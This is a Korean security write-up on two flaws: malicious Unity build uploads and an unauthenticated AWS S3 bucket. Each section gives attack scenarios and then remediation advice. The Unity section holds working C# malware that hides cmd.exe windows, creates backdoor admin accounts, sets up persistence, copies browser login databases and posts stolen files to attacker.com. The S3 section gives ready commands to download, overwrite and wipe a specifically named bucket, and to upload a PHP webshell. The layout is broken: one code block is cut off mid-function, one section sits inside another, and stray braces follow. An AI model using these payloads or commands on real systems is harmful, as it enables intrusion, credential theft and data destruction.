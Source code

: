 <details>
<summary><strong>Unity Command Injection</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### 유니티 파일 업로드 시스템 명령어 실행 취약점이란?
웹 사이트에서 유니티 빌드 파일을 업로드하는 기능에서, 악성 스크립트가 포함된 파일에 대한 적절한 검증 없이 업로드를 허용할 때 발생하는 취약점입니다. 사용자가 해당 파일을 실행하면 악성 스크립트를 통해 시스템 명령어가 실행될 수 있습니다.

### 취약점 발생 위치
- **서버 측**: 유니티 빌드 파일 업로드 처리 과정
- **클라이언트 측**: 업로드된 유니티 파일 실행 시점
- **실행 환경**: 사용자 브라우저 또는 유니티 런타임 환경

### 공격 시나리오

#### 일반적인 공격 과정:
1. **악성 스크립트 작성**: C# 스크립트에 시스템 명령어 실행 코드 삽입
2. **유니티 프로젝트 빌드**: 악성 스크립트가 포함된 유니티 파일 생성
3. **파일 업로드**: 웹사이트에 악성 유니티 파일 업로드
4. **사용자 유인**: 정상적인 게임이나 애플리케이션으로 위장
5. **실행 및 공격**: 사용자가 버튼 클릭 시 시스템 명령어 실행

### 취약한 코드 패턴

#### 기본적인 악성 스크립트 구조:
```csharp
using UnityEngine;
using System.Diagnostics;

public class OpenURL : MonoBehaviour 
{
    public void testURL() 
    {
        // 기본 시스템 명령어 실행
        string cmdCommand = "/c start explorer \"C:\\\" & taskmgr & pause";
        Process.Start("cmd.exe", cmdCommand);
    }
}
```

#### 고급 악성 스크립트 패턴:
```csharp
using UnityEngine;
using System.Diagnostics;
using System.Collections;

public class AdvancedMalware : MonoBehaviour
{
    void Start()
    {
        // 지연 실행으로 탐지 회피
        StartCoroutine(DelayedExecution());
    }
    
    IEnumerator DelayedExecution()
    {
        yield return new WaitForSeconds(10f);
        
        // 시스템 정보 수집
        ExecuteCommand("systeminfo > %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 네트워크 정보 수집
        ExecuteCommand("ipconfig /all >> %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 사용자 계정 생성
        ExecuteCommand("net user hacker password123 /add");
        
        // 관리자 그룹 추가
        ExecuteCommand("net localgroup administrators hacker /add");
    }
    
    void ExecuteCommand(string command)
    {
        try
        {
            ProcessStartInfo startInfo = new ProcessStartInfo();
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = "/c " + command;
            startInfo.WindowStyle = ProcessWindowStyle.Hidden;
            startInfo.CreateNoWindow = true;
            
            Process.Start(startInfo);
        }
        catch (System.Exception e)
        {
            Debug.Log("Command execution failed: " + e.Message);
        }
    }
}
```

### 공격 유형별 분류

#### 1.1. 직접 시스템 명령어 실행
```csharp
// 파일 시스템 조작
Process.Start("cmd.exe", "/c copy %USERPROFILE%\\Documents\\*.* %temp%\\stolen\\");

// 네트워크 스캔
Process.Start("cmd.exe", "/c for /L %i in (1,1,254) do ping -n 1 192.168.1.%i");

// 시스템 정보 수집
Process.Start("cmd.exe", "/c whoami /all > %temp%\\userinfo.txt");
```

#### 1.2. 권한 상승 시도
```csharp
// 관리자 계정 활성화
Process.Start("cmd.exe", "/c net user administrator /active:yes");

// 새로운 관리자 계정 생성
Process.Start("cmd.exe", "/c net user backdoor P@ssw0rd123! /add");
Process.Start("cmd.exe", "/c net localgroup administrators backdoor /add");

// UAC 우회 시도
Process.Start("cmd.exe", "/c reg add HKCU\\Software\\Classes\\ms-settings\\Shell\\Open\\command /v DelegateExecute /t REG_SZ");
```

#### 1.3. 지속성 확보
```csharp
// 시작 프로그램 등록
Process.Start("cmd.exe", "/c reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /v SystemUpdate /d C:\\temp\\malware.exe");

// 스케줄 작업 생성
Process.Start("cmd.exe", "/c schtasks /create /tn \"WindowsUpdate\" /tr \"C:\\temp\\backdoor.exe\" /sc daily /st 09:00");

// 서비스 등록
Process.Start("cmd.exe", "/c sc create BackdoorService binPath=\"C:\\temp\\service.exe\" start=auto");
```

#### 1.4. 데이터 탈취
```csharp
// 브라우저 데이터 수집
Process.Start("cmd.exe", "/c copy \"%LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Login Data\" %temp%\\chrome_data.db");
Process.Start("cmd.exe", "/c copy \"%APPDATA%\\Mozilla\\Firefox\\Profiles\\*.default\\logins.json\" %temp%\\");

// 문서 파일 수집
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.pdf /c \"cmd /c copy @path %temp%\\docs\\\"");
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.docx /c \"cmd /c copy @path %temp%\\docs\\\"");

// 데이터 외부 전송
Process.Start("cmd.exe", "/c curl -X POST -F \"file=@%temp%\\stolen_data.zip\" http://attacker.com/upload");
```

### 기술적 동작 원리

#### Unity WebGL vs Standalone 차이점:
```csharp
#if UNITY_WEBGL
    // WebGL에서는 일반적으로 System.Diagnostics.Process가 제한됨
    // 하지만 특정 조건에서 브라우저 API 활용 가능
    Application.ExternalEval("window.open('file:///C:/', '_blank');");
    
#elif UNITY_STANDALONE
    // Standalone 빌드에서는 직접적인 시스템 접근 가능
    Process.Start("cmd.exe", "/c dir C:\\ > %temp%\\directories.txt");
    
    // PowerShell 실행도 가능
    Process.Start("powershell.exe", "-Command Get-Process | Out-File %temp%\\processes.txt");
    
#endif
```

#### UI 이벤트와 연결:
```csharp
using UnityEngine;
using UnityEngine.UI;
using System.Diagnostics;

public class MaliciousButton : MonoBehaviour
{
    void Start()
    {
        // 버튼 컴포넌트 가져오기
        Button btn = GetComponent<Button>();
        
        // 클릭 이벤트에 악성 함수 연결
        btn.onClick.AddListener(() => {
            ExecuteMaliciousCode();
        });
        
        // 또는 다른 UI 이벤트 활용
        btn.onClick.AddListener(delegate { StartCoroutine(DelayedAttack()); });
    }
    
    void ExecuteMaliciousCode()
    {
        // 사용자가 버튼을 클릭하는 순간 실행
        Process.Start("cmd.exe", "/c taskmgr & explorer C:\\");
    }
    
    System.Collections.IEnumerator DelayedAttack()
    {
        // 5초 후 실행하여 의심을 피함
        yield return new WaitForSeconds(5f);
        
        Process.Start("cmd.exe", "/c net user attacker P@ssw0rd! /add /comment:\"System Account\"");
    }
}
```

---

## 2. 조치 가이드

### 2.1. 파일 업로드 검증

#### 2.1.1. 기본 파일 검증
```php
// 파일 확장자 및 크기 제한
$allowed_ext = ['unity3d', 'unityweb'];
$max_size = 10 * 1024 * 1024; // 10MB

if (!in_array($ext, $allowed_ext) || $file_size > $max_size) {
    reject_upload();
}
```

#### 2.1.2. 압축 파일 내용 스캔
```python
import zipfile
import re

def scan_unity_file(file_path):
    dangerous_patterns = [
        r'Process\.Start',
        r'System\.Diagnostics',
        r'cmd\.exe',
        r'net\s+user',
        r'reg\s+add'
    ]
    
    with zipfile.ZipFile(file_path, 'r') as zip_file:
        for file_info in zip_file.filelist:
            if file_info.filename.endswith('.cs'):
                content = zip_file.read(file_info).decode('utf-8', errors='ignore')
                
                for pattern in dangerous_patterns:
                    if re.search(pattern, content, re.IGNORECASE):
                        return False  # 위험한 패턴 발견
    
    return True  # 안전
```

### 2.2. 실행 환경 보안

#### 2.2.1. 샌드박스 실행 환경 구축
```bash
# Docker를 이용한 격리된 실행 환경
FROM ubuntu:20.04
RUN useradd -m -s /bin/bash unity_user
USER unity_user
WORKDIR /sandbox

# 네트워크 접근 차단
RUN iptables -A OUTPUT -j DROP

# 파일 시스템 접근 제한
RUN mount -o ro /usr/bin
```

#### 2.2.2. 브라우저 보안 정책
```html
<!-- Content Security Policy 적용 -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' 'unsafe-eval';">

<!-- 권한 정책 제한 -->
<meta http-equiv="Permissions-Policy" 
      content="camera=(), microphone=(), geolocation=()">
```

### 2.3. 관리자 승인 시스템

#### 2.3.1. 수동 검토 프로세스
```sql
-- 승인 대기 테이블 생성
CREATE TABLE file_approvals (
    id INT AUTO_INCREMENT PRIMARY KEY,
    filename VARCHAR(255),
    upload_time DATETIME,
    status ENUM('pending', 'approved', 'rejected'),
    reviewer_id INT
);
```

#### 2.3.2. 48시간 검토 기간 설정
```php
// 업로드 후 48시간 대기 후 공개
$public_time = date('Y-m-d H:i:s', strtotime('+48 hours'));
$stmt = $pdo->prepare("UPDATE files SET public_time = ? WHERE id = ?");
$stmt->execute([$public_time, $file_id]);
```

### 2.4. 모니터링 시스템

#### 2.4.1. 실시간 로그 모니터링
```bash
# 시스템 명령어 실행 감지
tail -f /var/log/syslog | grep -E "(cmd.exe|powershell|net user)" | \
while read line; do
    echo "ALERT: Suspicious command detected - $line"
    # 관리자에게 알림 전송
done
```

#### 2.4.2. 파일 실행 추적
```javascript
// Unity WebGL 실행 시 모니터링
window.addEventListener('beforeunload', function(e) {
    // 비정상 종료 시 서버에 보고
    navigator.sendBeacon('/security-alert', {
        type: 'abnormal_exit',
        timestamp: new Date().toISOString()
    });
});
```

### 2.5. 응급 대응 절차

#### 2.5.1. 악성 파일 발견 시 조치
```bash
# 1. 즉시 파일 격리
mv /var/www/uploads/malicious_file.unity3d /quarantine/

# 2. 접근 로그 확인
grep "malicious_file" /var/log/apache2/access.log

# 3. 영향받은 사용자 파악
mysql -e "SELECT user_id, access_time FROM access_logs WHERE file_name LIKE '%malicious_file%'"
```

#### 2.5.2. 사용자 알림 및 조치
```php
// 긴급 보안 알림 발송
function send_security_alert($affected_users) {
    foreach ($affected_users as $user) {
        mail($user['email'], 
             '보안 알림', 
             '최근 실행하신 파일에서 보안 위험이 발견되어 제거했습니다. PC 검사를 권장합니다.');
    }


ㅡㅡㅡ
ㅡㅡㅡ

<details><summary><strong>AWS S3 Unauthorized Access</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### AWS S3 무인증 접근 취약점이란?
AWS S3 버킷이 잘못 구성되어 인증 없이 접근 가능할 때 발생하는 취약점입니다. `--no-sign-request` 옵션을 사용하여 AWS CLI를 통해 인증 절차 없이 S3 버킷에 접근하여 파일 업로드, 다운로드, 나열 등의 작업을 수행할 수 있습니다.

### 취약점 발생 위치
- **AWS S3 버킷**: 퍼블릭 접근이 허용된 S3 버킷
- **버킷 정책**: 잘못 구성된 IAM 정책 및 ACL 설정
- **접근 제어**: 인증 및 권한 검증 우회

### 공격 시나리오

#### 일반적인 공격 과정:
1. **버킷 발견**: 공개된 S3 버킷 URL 또는 버킷명 수집
2. **AWS CLI 설치**: 공격자 시스템에 AWS CLI 도구 설치
3. **무인증 접근**: `--no-sign-request` 옵션으로 인증 우회
4. **권한 확인**: 버킷 내 파일 목록 조회 및 권한 테스트
5. **데이터 탈취/조작**: 파일 다운로드, 업로드, 삭제 등 수행

### 취약한 설정 패턴

#### 기본 공격 명령어:
```bash
# 1. 버킷 내 파일 목록 조회
aws s3 ls s3://ktcnaihumanstudio --no-sign-request --no-verify-ssl

# 2. 버킷 내 모든 파일 나열 (재귀적)
aws s3 ls s3://ktcnaihumanstudio --recursive --no-sign-request --no-verify-ssl

# 3. 특정 파일 다운로드
aws s3 cp s3://ktcnaihumanstudio/sensitive_data.txt ./stolen_data.txt --no-sign-request --no-verify-ssl

# 4. 악성 파일 업로드
aws s3 cp malicious_file.php s3://ktcnaihumanstudio/uploads/ --no-sign-request --no-verify-ssl

# 5. 버킷 전체 동기화 (모든 파일 다운로드)
aws s3 sync s3://ktcnaihumanstudio ./stolen_bucket --no-sign-request --no-verify-ssl
```

### 공격 유형별 분류

#### 1.1. 데이터 탈취
```bash
# 민감한 파일 검색 및 다운로드
aws s3 ls s3://ktcnaihumanstudio --recursive --no-sign-request | grep -E "\.(pdf|docx|xlsx|txt|log)$"

# 설정 파일 탈취
aws s3 cp s3://ktcnaihumanstudio/.env ./config_files/ --no-sign-request
aws s3 cp s3://ktcnaihumanstudio/config/database.yml ./config_files/ --no-sign-request

# 로그 파일 수집
aws s3 sync s3://ktcnaihumanstudio/logs/ ./stolen_logs/ --no-sign-request

# 백업 파일 탈취
aws s3 cp s3://ktcnaihumanstudio/backups/db_backup.sql ./database_backup.sql --no-sign-request
```

#### 1.2. 악성 파일 업로드
```bash
# 웹쉘 업로드
echo '<?php system($_GET["cmd"]); ?>' > webshell.php
aws s3 cp webshell.php s3://ktcnaihumanstudio/public/shell.php --no-sign-request

# 피싱 페이지 업로드
aws s3 cp fake_login.html s3://ktcnaihumanstudio/login.html --no-sign-request

# 멀웨어 배포
aws s3 cp malware.exe s3://ktcnaihumanstudio/downloads/update.exe --no-sign-request

# 대용량 파일 업로드 (서비스 방해)
dd if=/dev/zero of=large_file.bin bs=1M count=1000  # 1GB 파일 생성
aws s3 cp large_file.bin s3://ktcnaihumanstudio/ --no-sign-request
```

#### 1.3. 버킷 내용 조작
```bash
# 기존 파일 삭제
aws s3 rm s3://ktcnaihumanstudio/important_file.txt --no-sign-request

# 파일 덮어쓰기
echo "Hacked by attacker" > hacked.txt
aws s3 cp hacked.txt s3://ktcnaihumanstudio/index.html --no-sign-request

# 버킷 전체 삭제 (가능한 경우)
aws s3 rm s3://ktcnaihumanstudio --recursive --no-sign-request
```

#### 1.4. 정보 수집 및 정찰
```bash
# 버킷 정책 확인
aws s3api get-bucket-policy --bucket ktcnaihumanstudio --no-sign-request

# 버킷 ACL 조회
aws s3api get-bucket-acl --bucket ktcnaihumanstudio --no-sign-request

# 버킷 위치 확인
aws s3api get-bucket-location --bucket ktcnaihumanstudio --no-sign-request

# 버킷 버전 관리 상태 확인
aws s3api get-bucket-versioning --bucket ktcnaihumanstudio --no-sign-request

# 멀티파트 업로드 상태 확인
aws s3api list-multipart-uploads --bucket ktcnaihumanstudio --no-sign-request
```

### 기술적 동작 원리

#### AWS CLI 옵션 설명:
```bash
# --no-sign-request: AWS 인증 서명 없이 요청
# --no-verify-ssl: SSL 인증서 검증 생략
# --recursive: 하위 디렉토리까지 재귀적 처리
# --dryrun: 실제 실행 없이 명령어 테스트

# 실제 명령어 구조
aws s3 [command] [source] [destination] [options]
```

#### 잘못된 S3 버킷 정책 예시:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "PublicReadGetObject",
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "s3:GetObject",
                "s3:GetObjectVersion",
                "s3:ListBucket",
                "s3:PutObject"
            ],
            "Resource": [
                "arn:aws:s3:::ktcnaihumanstudio",
                "arn:aws:s3:::ktcnaihumanstudio/*"
            ]
        }
    ]
}
```

#### 취약한 ACL 설정:
```bash
# 모든 사용자에게 읽기/쓰기 권한 부여 (위험)
aws s3api put-bucket-acl --bucket ktcnaihumanstudio --acl public-read-write

# 인증된 사용자에게 모든 권한 부여 (위험)
aws s3api put-bucket-acl --bucket ktcnaihumanstudio --acl authenticated-read
```

---

## 2. 조치 가이드

### 2.1. 버킷 접근 제어 강화

#### 2.1.1. 버킷 정책 수정
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "DenyPublicAccess",
            "Effect": "Deny",
            "Principal": "*",
            "Action": "s3:*",
            "Resource": [
                "arn:aws:s3:::ktcnaihumanstudio",
                "arn:aws:s3:::ktcnaihumanstudio/*"
            ],
            "Condition": {
                "StringNotEquals": {
                    "aws:PrincipalServiceName": [
                        "cloudfront.amazonaws.com"
                    ]
                }
            }
        }
    ]
}
```

#### 2.1.2. 퍼블릭 액세스 차단
```bash
# S3 퍼블릭 액세스 완전 차단
aws s3api put-public-access-block \
    --bucket ktcnaihumanstudio \
    --public-access-block-configuration \
    "BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"
```

### 2.2. IAM 정책 강화

#### 2.2.1. 최소 권한 원칙 적용
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "s3:GetObject"
            ],
            "Resource": "arn:aws:s3:::ktcnaihumanstudio/public/*",
            "Condition": {
                "StringEquals": {
                    "s3:x-amz-acl": "bucket-owner-full-control"
                }
            }
        }
    ]
}
```

#### 2.2.2. MFA 인증 강제
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Deny",
            "Principal": "*",
            "Action": "s3:*",
            "Resource": [
                "arn:aws:s3:::ktcnaihumanstudio",
                "arn:aws:s3:::ktcnaihumanstudio/*"
            ],
            "Condition": {
                "BoolIfExists": {
                    "aws:MultiFactorAuthPresent": "false"
                }
            }
        }
    ]
}
```

### 2.3. 모니터링 설정

#### 2.3.1. CloudTrail 로그 모니터링
```bash
# S3 접근 로그 조회
aws logs filter-log-events \
    --log-group-name CloudTrail/S3DataEvents \
    --filter-pattern "{ $.eventName = GetObject || $.eventName = PutObject }"
```

#### 2.3.2. CloudWatch 알람 설정
```bash
# 비정상적인 S3 접근 알람
aws cloudwatch put-metric-alarm \
    --alarm-name "S3-Unauthorized-Access" \
    --alarm-description "Detect unauthorized S3 access" \
    --metric-name "UnauthorizedApiCalls" \
    --namespace "AWS/S3" \
    --statistic "Sum" \
    --period 300 \
    --threshold 5 \
    --comparison-operator "GreaterThanThreshold"
```

### 2.4. 응급 대응 절차

#### 2.4.1. 즉시 버킷 격리
```bash
# 1. 퍼블릭 액세스 즉시 차단
aws s3api put-public-access-block \
    --bucket ktcnaihumanstudio \
    --public-access-block-configuration \
    "BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"

# 2. 버킷 정책 제거
aws s3api delete-bucket-policy --bucket ktcnaihumanstudio
```

#### 2.4.2. 보안 감사
```bash
# 최근 접근 로그 분석
aws s3api get-bucket-logging --bucket ktcnaihumanstudio

# 업로드된 파일 점검
aws s3 ls s3://ktcnaihumanstudio --recursive | grep -E "\.(php|jsp|asp|exe)$"
```

</details>
}
```

</details>
